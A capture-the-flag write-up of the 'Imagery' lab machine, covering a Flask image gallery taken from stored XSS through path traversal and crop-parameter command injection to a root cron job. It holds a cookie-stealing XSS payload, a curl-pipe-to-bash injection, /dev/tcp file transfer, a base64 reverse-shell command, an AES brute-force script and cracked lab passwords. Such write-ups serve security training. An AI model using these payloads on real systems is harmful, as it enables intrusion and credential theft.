Imagery
Imagery was a medium-difficulty Linux machine that began with discovering a Flask-based online image gallery on port 8000.
After creating a test account and identifying the framework through its 404 error page, I discovered a stored XSS vulnerability in the report functionality where an admin would review submitted reports.
I crafted an XSS payload <img src=x onerror="document.location='http://10.10.16.92:8000/XSS?c='+document.cookie"> that, when reviewed by the admin, exfiltrated their session cookie to my Python HTTP server, granting me admin access to the application.
As admin, I found a log download feature in the admin panel that was vulnerable to Local File Inclusion (LFI). By manipulating the log_identifier parameter with path traversal (../../../../etc/passwd), I could read arbitrary files on the system. I leveraged this to download the Flask application source code (app.py, config.py) and the JSON database file (db.json), which contained MD5-hashed credentials for admin and testuser accounts. Using CrackStation, I cracked the testuser hash (testuser@imagery.htb:iambatman) and logged in to discover that test users had access to work-in-progress image transformation features that were locked for regular users.
Examining the transform operations, I found a command injection vulnerability in the crop function where user-controlled parameters (x, y, width, height) were passed directly into an ImageMagick convert command with shell=True.
I exploited this using backtick command substitution in the x parameter: "x":"0curl http://10.10.16.92:8000/sh|bash", which executed before the ImageMagick operation and granted me a reverse shell as the web user.
While exploring the filesystem, I discovered an AES-encrypted backup file in /var/backup/ (web_20250806_120723.zip.aes). I transferred it to my machine and wrote a Python brute-forcing script using the pyAesCrypt library to crack the encryption password (bestfriends). The decrypted backup contained an older version of db.json with additional user credentials. I cracked the MD5 hashes for two new users—mark (supersmash) and web (spiderweb1234). Since SSH password authentication was disabled, I used su from my web shell to switch to the mark user and obtained the user flag.
As mark, I ran sudo -l and discovered I could execute /usr/bin/charcol as root—a custom backup utility I'd never encountered before. Running charcol with the shell flag prompted for a master passphrase, which I reset using the -R flag with mark's system password. After resetting to "no password mode" for convenience, I entered the charcol interactive shell and explored its capabilities. I identified the auto add command that could create cron jobs managed by charcol without validating the safety of executed commands. I created a malicious cron job scheduled to run every minute: auto add --schedule "5star" --command 'echo "YmFzaCAtYyAnYmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTYuOTIvOTAwMiAwPiYxJwo=" | base64 -d | bash' --name legit, which decoded and executed a base64-encoded reverse shell payload. After waiting for the cron job to trigger, I received a root shell and captured the root flag.
User Flag

Initial nmap scan reveals only 2 open ports. SSH on 22 and a website on 8000.
Enumerating The Website
Looks like a fairly standard website, in this case, for an online gallery. Trying to reach a nonexistent endpoint reveals a standard 404 page belonging to Flask.
https://0xdf.gitlab.io/cheatsheets/404#flask

I created an account of test:test, and logged into it.

I can upload a file, limited to common image formats and 1MB in size. I'll upload a random image to see what I can do with it.

Most options are greyed out, throwing a still in production error. The file's download link is http://10.129.7.222:8000/uploads/86c91abf-4492-45f3-8e0f-66cca2bc7d86_favicon.png, and I can't find a way to upload a malicious file.
XSS In The Report Functionality
Under the quick links section at the bottom of the page, I see a report functionality.

Apparently, an admin will review the sent reports, which opens a path for XSS cookie theft here.
<img src=x onerror="document.location='http://10.10.16.92:8000/XSS?c='+document.cookie">
I used this payload in both report fields. If an admin sees it, their browser will reach out to my Python server, sharing the admin's cookie while trying to find /XSS.

After swapping my cookie with the admin's, a new button has been revealed on the main page.
LFI In The Admin Panel

The admin panel allows me to manage users, as well as download some logs. I'll have a look into them.

Seems like these are just user authentication logs. However, the download link itself looks like it could be vulnerable to LFI.

I will swap the logfile with a path traversal payload, searching for etc/passwd.
GET /admin/get_system_log?log_identifier=../../../../etc/passwd

LFI confirmed! I can now download any file on the box that the underlying user has access to. Since this is a Flask app, I will start by grabbing the app.py file.
GET /admin/get_system_log?log_identifier=../app.py
from flask import Flask, render_template
import os
import sys
from datetime import datetime
from config import *
from utils import _load_data, _save_data
from utils import *
from api_auth import bp_auth
from api_upload import bp_upload
from api_manage import bp_manage
from api_edit import bp_edit
from api_admin import bp_admin
from api_misc import bp_misc
app_core = Flask(__name__)
app_core.secret_key = os.urandom(24).hex()
app_core.config['SESSION_COOKIE_HTTPONLY'] = False
app_core.register_blueprint(bp_auth)
app_core.register_blueprint(bp_upload)
app_core.register_blueprint(bp_manage)
app_core.register_blueprint(bp_edit)
app_core.register_blueprint(bp_admin)
app_core.register_blueprint(bp_misc)
@app_core.route('/')
def main_dashboard():
return render_template('index.html')
if __name__ == '__main__':
current_database_data = _load_data()
default_collections = ['My Images', 'Unsorted', 'Converted', 'Transformed']
existing_collection_names_in_database = {g['name'] for g in current_database_data.get('image_collections', [])}
for collection_to_add in default_collections:
if collection_to_add not in existing_collection_names_in_database:
current_database_data.setdefault('image_collections', []).append({'name': collection_to_add})
_save_data(current_database_data)
for user_entry in current_database_data.get('users', []):
user_log_file_path = os.path.join(SYSTEM_LOG_FOLDER, f"{user_entry['username']}.log")
if not os.path.exists(user_log_file_path):
with open(user_log_file_path, 'w') as f:
f.write(f"[{datetime.now().isoformat()}] Log file created for {user_entry['username']}.\n")
port = int(os.environ.get("PORT", 8000))
if port in BLOCKED_APP_PORTS:
print(f"Port {port} is blocked for security reasons. Please choose another port.")
sys.exit(1)
app_core.run(debug=False, host='0.0.0.0', port=port)
There is no mention of a database(by name) in this file... But I can see that it is importing something from a config file. I will try to grab that as well.
GET /admin/get_system_log?log_identifier=../config.py
import os
import ipaddress
DATA_STORE_PATH = 'db.json'
UPLOAD_FOLDER = 'uploads'
SYSTEM_LOG_FOLDER = 'system_logs'
os.makedirs(UPLOAD_FOLDER, exist_ok=True)
os.makedirs(os.path.join(UPLOAD_FOLDER, 'admin'), exist_ok=True)
os.makedirs(os.path.join(UPLOAD_FOLDER, 'admin', 'converted'), exist_ok=True)
os.makedirs(os.path.join(UPLOAD_FOLDER, 'admin', 'transformed'), exist_ok=True)
os.makedirs(SYSTEM_LOG_FOLDER, exist_ok=True)
MAX_LOGIN_ATTEMPTS = 10
ACCOUNT_LOCKOUT_DURATION_MINS = 1
ALLOWED_MEDIA_EXTENSIONS = {'jpg', 'jpeg', 'png', 'gif', 'bmp', 'tiff', 'pdf'}
ALLOWED_IMAGE_EXTENSIONS_FOR_TRANSFORM = {'jpg', 'jpeg', 'png', 'gif', 'bmp', 'tiff'}
ALLOWED_UPLOAD_MIME_TYPES = {
'image/jpeg',
'image/png',
'image/gif',
'image/bmp',
'image/tiff',
'application/pdf'
}
ALLOWED_TRANSFORM_MIME_TYPES = {
'image/jpeg',
'image/png',
'image/gif',
'image/bmp',
'image/tiff'
}
MAX_FILE_SIZE_MB = 1
MAX_FILE_SIZE_BYTES = MAX_FILE_SIZE_MB * 1024 * 1024
BYPASS_LOCKOUT_HEADER = 'X-Bypass-Lockout'
BYPASS_LOCKOUT_VALUE = os.getenv('CRON_BYPASS_TOKEN', 'default-secret-token-for-dev')
FORBIDDEN_EXTENSIONS = {'php', 'php3', 'php4', 'php5', 'phtml', 'exe', 'sh', 'bat', 'cmd', 'js', 'jsp', 'asp', 'aspx', 'cgi', 'pl', 'py', 'rb', 'dll', 'vbs', 'vbe', 'jse', 'wsf', 'wsh', 'psc1', 'ps1', 'jar', 'com', 'svg', 'xml', 'html', 'htm'}
BLOCKED_APP_PORTS = {8080, 8443, 3000, 5000, 8888, 53}
OUTBOUND_BLOCKED_PORTS = {80, 8080, 53, 5000, 8000, 22, 21}
PRIVATE_IP_RANGES = [
ipaddress.ip_network('127.0.0.0/8'),
ipaddress.ip_network('172.0.0.0/12'),
ipaddress.ip_network('10.0.0.0/8'),
ipaddress.ip_network('169.254.0.0/16')
]
AWS_METADATA_IP = ipaddress.ip_address('169.254.169.254')
IMAGEMAGICK_CONVERT_PATH = '/usr/bin/convert'
EXIFTOOL_PATH = '/usr/bin/exiftool
The website is using exiftool and imagemagick_convert somewhere... Expected from an image gallery. Aside from that, I see the database, and it is saved in a JSON format. I will grab it right away.
GET /admin/get_system_log?log_identifier=../db.json
{
"users": [
{
"username": "admin@imagery.htb",
"password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
"isAdmin": true,
"displayId": "a1b2c3d4",
"login_attempts": 0,
"isTestuser": false,
"failed_login_attempts": 0,
"locked_until": null
},
{
"username": "testuser@imagery.htb",
"password": "2c65c8d7bfbca32a3ed42596192384f6",
"isAdmin": false,
"displayId": "e5f6g7h8",
"login_attempts": 0,
"isTestuser": true,
"failed_login_attempts": 0,
"locked_until": null
}
],
"images": [],
"image_collections": [
{
"name": "My Images"
},
{
"name": "Unsorted"
},
{
"name": "Converted"
},
{
"name": "Transformed"
}
],
"bug_reports": []
}
This DB contains hashed credentials for admin and testuser. These look like MD5 hashes, so I'll use CrackStation to crack them.

testuser@imagery.htb | iambatman
Looking For Code Execution
I'll log in as the test user. There were a few functions in the image gallery that were locked out due to being WIP. There is a chance that the test user has access to these, because it is a test user.

Confirmed! Out of all these options, transform image sounds like it would use the mentioned binaries to perform operations on the file. The others focus on metadata(exiftool), as well as extension and details modification.
This option holds 5 different operations: Crop, Rotate, Saturation, Brightness, Contrast. I'll check each of them one by one.
Command Injection In The Crop Operation

The user-controlled params seem to be passed into ImageMagick. I'll poke around them to see what's permitted and what's not.

In bash, the backticks are used for command substitution. This is used to run whatever is in the backticks before the rest of the command, and replace the "backticked" piece with its result. For example:
ls /home/`whoami`
Will become ls /home/USER, as the result of whoami will be the current user's name.
Here, I don't really care what happens to the convert command afterwards. Using backticks allows me to run the curl command before the operation commences, even if it crashes or breaks further on.
"x":"0`curl http://10.10.16.92:8000/sh|bash`"

This results in a shell as the web user. Looking at the landing directory, I can see the webapp's source code.

The api_edit.py file contains source code for the image edition operations.

if transform_type == 'crop':
x = str(params.get('x'))
y = str(params.get('y'))
width = str(params.get('width'))
height = str(params.get('height'))
command = f"{IMAGEMAGICK_CONVERT_PATH} {original_filepath} -crop {width}x{height}+{x}+{y} {output_filepath}"
subprocess.run(command, capture_output=True, text=True, shell=True, check=True)
This is the only operation that takes the user-controlled params and uses them in the ImageMagick command. Notice that the shell env variable is set to true, which will cause the curly braces to be processed first before running the command. Kinda similar to the backticks trick from earlier!
Cracking The AES-Encrypted Backup
I looked through the filesystem, and found a non-standard directory in /var

I'll transfer this file onto my box with the following commands:
cat web_20250806_120723.zip.aes > /dev/tcp/10.10.16.92/9001
nc -lnkvp 9001 > web_20250806_120723.zip.aes

Knowing that this file was encrypted with the pyAesCrypt library, I wrote a simple bruteforcer running pyAesCrypt.decryptFile against the file.
https://github.com/marcobellaccini/pyAesCrypt
# brute_aes.py
import pyAesCrypt
def brute_force(encrypted_file, wordlist_file):
print(f"[*] Starting brute force on: {encrypted_file}")
print(f"[*] Using wordlist: {wordlist_file}")
with open(wordlist_file, 'r', encoding='utf-8', errors='ignore') as f:
for i, line in enumerate(f, 1):
password = line.strip()
if i % 1000 == 0:
print(f"[*] Tried {i} passwords...")
try:
pyAesCrypt.decryptFile(encrypted_file, "decrypted_output.zip", password)
print(f"\n[+] SUCCESS! Password found: {password}")
print(f"[+] Decrypted file saved as: decrypted_output.zip")
return password
except ValueError:
# Wrong password, continue
pass
print(f"\n[-] Password not found after {i} attempts")
return None
if __name__ == "__main__":
encrypted_file = "web_20250806_120723.zip.aes"
wordlist = input("Enter wordlist file path: ").strip()
brute_force(encrypted_file, wordlist)

archive | bestfriends
The archive unzips into a backup of the web directory, the same one I landed in after getting the web user shell.

I looked into the db.json file first, remembering that it holds user credentials.

There are 2 new users in this file, web and mark. I'll send both hashes to CrackStation.
